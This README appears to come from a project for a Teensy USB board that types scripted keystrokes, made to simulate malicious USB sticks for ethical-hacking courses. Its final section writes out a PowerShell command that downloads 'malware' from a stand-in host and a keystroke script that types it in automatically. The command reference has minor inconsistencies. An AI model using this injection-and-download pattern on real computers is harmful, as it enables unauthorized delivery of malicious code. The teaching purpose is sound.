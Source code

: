 # teensy
Tools and projects all around the Teensy USB Development Board

## teensy_keyboard

Based on the Keyboard-Library and example from the Teensy Homepage:
https://www.pjrc.com/teensy/index.html

This program allows you to define a very simple string which is parsed and
sent as Keystrokes to the Computer after the Teensy gets pluged in.

I created this to simulate Malicious USB-Sticks in Ethical-Hackin courses
and presentations withing [ThinkArena](http://www.denkarena.ch/)

### Commands and Format

The String can be of Keystrokes, Strings, Pause, Return and others:
* The `K:` is used to simulate a KeyStroke with a modifier key
** Modifiers are A(al), C(trl), W(in), S(hift), N(one)
** Additional Modifiers can written separated with a space:
*** Use at least two characters like: AL(t), CT(rl), SH(ift), WI(n)
*** In normal mode all keys are send together
*** Special keys: CT(rl), AL(t), WI(n), SH(ift), DE(el), HO(me), IN(sert), EN(d), ES(cape), SY(srq), EN(ter), TA(b)
** Examples:
*** to send a single space, use the `SP` with the `N` modifier: `K: N SP`
*** to send `ctrl+alt+del` use something like this: `K: CTRL ALT DEL` (or in short `K C AL DE`)
* The `S:` is used to write a string
* The `W:` is used to wait the given amount of milliseconds before the next line is processed
* The `X` is used to send a ESC Keystroke
* The `R` is used to send the RETURN/ENTER key
* The `T` is used to send the TABULATOR key
* The `U` is used to send the ARROW-UP key
* The `D` is used to send the ARROW-DOWN key
* The `L` is used to send the ARROW-LEFT key
* The `R` is used to send the ARROW-RIGHT key

For better readability you can use a doublepoint to sepaarte the command character from the following string.

**Example**

Open Notepad and write something:
```
K WIN R
W 50
S notepad
W 200
S You've just inserted a malicious USB-Stick.
E
S Always take care about what you're connection
E
S Cheers...
E
```

### Downlaod in Windows

Under Windows you can use something like this on Windows to download Maleware in a Powershell:

```Batchfile
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://www.example.com/file.exe", "C:\")
```

This would result in a String like this:
```
K: WIN R
W: 50
S: powershell
E:
S: $client = New-Object System.Net.WebClient
E:
S: $client.DownloadFile("http://www.example.com/file.exe", "C:\")
E:
```


